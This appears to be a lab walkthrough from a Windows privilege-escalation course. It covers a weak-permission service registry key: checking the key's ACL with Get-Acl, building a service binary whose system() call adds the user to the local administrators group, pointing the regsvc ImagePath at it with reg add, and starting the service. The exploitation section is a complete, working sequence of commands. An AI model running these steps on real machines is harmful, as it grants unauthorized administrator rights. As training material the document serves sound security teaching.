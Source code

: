 ## Service Escalation - Registry

### Detection

Windows VM

1. Open powershell prompt and type: Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
2. Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

### Exploitation

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_service.c’ to the Kali VM.

Kali VM

1. Open windows_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64') 
3. Copy the generated file x.exe, to the Windows VM.

Windows VM

1. Place x.exe in ‘C:\Temp’.
2. Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
3. In the command prompt type: sc start regsvc
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators